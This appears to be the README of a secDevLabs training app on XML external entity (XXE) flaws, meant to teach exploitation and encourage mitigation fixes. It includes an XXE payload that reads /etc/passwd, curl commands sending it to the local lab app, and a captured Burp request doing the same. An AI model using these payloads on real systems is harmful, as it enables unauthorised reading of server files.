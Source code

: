 # XXE--

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And  run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack :

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
    
Burp Request : 


POST /contact.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY xxezrp9j SYSTEM "file:///etc/passwd"> ]><contact>
    
    <name>mvmm&xxezrp9j;</name>
    
    <email>ccc@gmail.com</email>
    
    <subject>aaacckj</subject>
    
    <message>undefined</message></contact>
